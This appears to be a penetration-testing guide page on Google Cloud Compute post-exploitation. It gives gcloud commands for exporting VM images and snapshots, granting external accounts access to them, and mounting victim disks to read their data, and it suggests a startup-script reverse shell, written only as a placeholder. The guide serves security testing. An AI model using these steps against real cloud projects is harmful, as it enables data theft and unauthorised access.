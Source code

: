 # GCP - Compute Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Compute

For more information about Compute and VPC (Networking) check:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Export & Inspect Images locally

This would allow an attacker to **access the data contained inside already existing images** or **create new images of running VMs** and access their data without having access to the running VM.

It's possible to export a VM image to a bucket and then download it and mount it locally with the command:

```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```

Fore performing this action the attacker might need privileges over the storage bucket and for sure **privileges over cloudbuild** as it's the **service** which is going to be asked to perform the export\
Moreover, for this to work the codebuild SA and the compute SA needs privileged permissions.\
The cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` needs:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

And the SA `<project-id>-compute@developer.gserviceaccount.com` needs:

- oles/compute.storageAdmin
- roles/storage.objectAdmin

### Export & Inspect Snapshots & Disks locally

It's not possible to directly export snapshots and disks, but it's possible to **transform a snapshot in a disk, a disk in an image** and following the **previous section**, export that image to inspect it locally

```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```

### Inspect an Image creating a VM

With the goal of accessing the **data stored in an image** or inside a **running VM** from where an attacker **has created an image,** it possible to grant an external account access over the image:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
  --member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
  --role='roles/compute.imageUser'
```

and then create a new VM from it:

```bash
gcloud compute instances create [INSTANCE_NAME] \
  --project=[TARGET_PROJECT_ID] \
  --zone=[ZONE] \
  --image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

If you could not give your external account access over image, you could launch a VM using that image in the victims project and **make the metadata execute a reverse shell** to access the image adding the param:

```bash
    --metadata startup-script='#! /bin/bash
        echo "hello"; <reverse shell>'
```

### Inspect a Snapshot/Disk attaching it to a VM

With the goal of accessing the **data stored in a disk or a snapshot, you could transform the snapshot into a disk, a disk into an image and follow th preivous steps.**

Or you could **grant an external account access** over the disk (if the starting point is a snapshot give access over the snapshot or create a disk from it):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
  --member='user:[USER_EMAIL]' \
  --role='roles/compute.storageAdmin'
```

**Attach the disk** to an instance:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
  --disk [DISK_NAME] \
  --zone [ZONE]
```

Mount the disk inside the VM:

1.  **SSH into the VM**:

    ```sh
    gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
    ```

2.  **Identify the Disk**: Once inside the VM, identify the new disk by listing the disk devices. Typically, you can find it as `/dev/sdb`, `/dev/sdc`, etc.
3.  **Format and Mount the Disk** (if it's a new or raw disk):

    - Create a mount point:

      ```sh
      sudo mkdir -p /mnt/disks/[MOUNT_DIR]
      ```

    - Mount the disk:

      ```sh
      sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
      ```

If you **cannot give access to a external project** to the snapshot or disk, you might need to p**erform these actions inside an instance in the same project as the snapshot/disk**.

{{#include ../../../banners/hacktricks-training.md}}



